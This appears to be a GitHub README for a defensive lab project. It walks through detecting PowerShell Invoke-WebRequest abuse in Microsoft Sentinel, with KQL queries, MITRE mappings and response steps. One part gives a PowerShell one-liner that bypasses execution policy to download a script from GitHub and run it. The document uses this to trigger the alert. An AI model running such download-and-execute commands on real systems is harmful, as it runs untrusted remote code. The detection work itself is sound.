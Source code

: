 # Incident-Response-PowerShell-Suspicious-Web-Request-NIST-800-61
# Felipe Restrepo - Incident Response Project: PowerShell Suspicious Web Request
# Explanation
Sometimes when a bad actor has access to a system, they will attempt to download malicious payloads or tools directly from the internet to expand their control or establish persistence. This is often achieved using legitimate system utilities like PowerShell to blend in with normal activity. By leveraging commands such as Invoke-WebRequest, they can download files or scripts from an external server and immediately execute them, bypassing traditional defenses or detection mechanisms. This tactic is a hallmark of post-exploitation activity, enabling them to deploy malware, exfiltrate data, or establish communication channels with a command-and-control (C2) server. Detecting this behavior is critical to identifying and disrupting an ongoing attack.

When processes are executed/run on the local VM, logs will be forwarded to Microsoft Defender for Endpoint under the DeviceProcessEvents table. These logs are then forwarded to the Log Analytics Workspace being used by Microsoft Sentinel, our SIEM. Within Sentinel, we will define an alert to trigger when PowerShell is used to download a remote file from the internet. 

![Screenshot 2025-06-25 003037](https://github.com/user-attachments/assets/ef91ba7b-99fa-489b-84f2-de5439d8f486)

## 📌 Overview
This Microsoft Sentinel project demonstrates a real-world incident response scenario where PowerShell is abused by an attacker to download potentially malicious scripts using `Invoke-WebRequest`. It walks through every phase of the NIST 800-61 Incident Response Lifecycle and shows how to:

- Detect the suspicious behavior
- Automate alerting and incident generation
- Investigate and analyze
- Contain and recover
- Document findings and improve defenses

---

## 🔍 Step-by-Step Implementation

### ✅ Part 1: Create Alert Rule - PowerShell Suspicious Web Request

**Purpose:** Detect when PowerShell is used to download files using `Invoke-WebRequest`, signaling possible attacker activity.

**Rule Details:**
- **Name:** Felipe Restrepo - PowerShell Suspicious Web Request
- **Severity:** Medium
- **MITRE ATT&CK:**
  - T1071.001 – Web Protocols
  - T1105 – Ingress Tool Transfer
  - T1203 – Exploitation for Client Execution
  - T1041 – Exfiltration Over C2
- **Query Schedule:** Every 4 hours, looking back 24 hours
- **Suppression:** Enabled for 24 hours
- **Entity Mapping:**
  - Account → AccountName
  - Host → DeviceName
  - Process → ProcessCommandLine

**KQL Detection Query:**
```kql
let TargetDevice = "windows-target-1";
DeviceProcessEvents
| where DeviceName == TargetDevice
| where FileName == "powershell.exe"
| where ProcessCommandLine contains "invoke-WebRequest"
```

**Screenshot:** `screenshots/rule_creation_1.png`

---

### 🛑 Part 2: Trigger Alert & Create Incident

**Purpose:** Generate logs by executing PowerShell web requests, which will trigger the alert rule in Sentinel.

**PowerShell Commands to Run on VM:**
```powershell
powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri 'https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/eicar.ps1' -OutFile 'C:\programdata\eicar.ps1';
powershell.exe -ExecutionPolicy Bypass -File 'C:\programdata\eicar.ps1';
```

**Result:** Microsoft Sentinel triggers the scheduled query and creates an incident.

**Screenshot:** `screenshots/incident_triggered.png`

---

### 🔎 Part 3: Investigate and Analyze the Incident

**Actions Taken:**
1. Alert was triggered on `windows-target-1`.
2. Entity mappings showed the account and command line activity.
3. User claimed they had installed free software before event.
4. Defender for Endpoint showed:

**KQL to Confirm Execution of Scripts:**
```kql
let TargetHostname = "windows-target-1";
let ScriptNames = dynamic(["eicar.ps1", "exfiltratedata.ps1", "portscan.ps1", "pwncrypt.ps1"]);
DeviceProcessEvents
| where DeviceName == TargetHostname
| where FileName == "powershell.exe"
| where ProcessCommandLine contains "-File" and ProcessCommandLine has_any (ScriptNames)
| order by TimeGenerated
| summarize Count = count() by AccountName, DeviceName, FileName, ProcessCommandLine
```

**Screenshot:** `screenshots/incident_analysis.png`

**Summary of Detected Scripts:**
| Script | Description |
|--------|-------------|
| `portscan.ps1` | Simulates a port scan |
| `pwncrypt.ps1` | Simulates ransomware-like encryption |
| `eicar.ps1` | Triggers antivirus as a test |
| `exfiltratedata.ps1` | Simulates data exfiltration |

---

### 🔒 Part 4: Containment, Eradication, and Recovery

**Actions:**
- Isolated VM in Microsoft Defender for Endpoint (MDE)
- Ran antivirus scan
- Removed isolation after VM came back clean

**Screenshot:** `screenshots/incident_closure.png`

---

### 📘 Part 5: Post-Incident Activities

**Notes and Improvements:**
- Updated PowerShell policy to restrict use to admins only
- Enrolled user in advanced cybersecurity awareness training (via KnowBe4)

---

### 🧹 Part 6: Cleanup

**Actions:**
- Deleted the custom Analytics Rule
- Deleted the closed incident entry in Sentinel

**Screenshot:** `screenshots/cleanup.png`

⚠️ *Be careful to only delete your own rules and incidents.*

---

## 📌 Final Notes:
- This project is based on Felipe Restrepo's real-world detection and incident response case using Microsoft Sentinel.
- It emphasizes a full detection-to-resolution workflow with hands-on implementation of a MITRE-aligned use case.
- Ideal for security analyst portfolios or blue team practice labs.

---

### 📎 References
- Microsoft Sentinel documentation
- MITRE ATT&CK Framework
- Josh Madakor Cyber Range Scripts
- NIST 800-61: Computer Security Incident Handling Guide
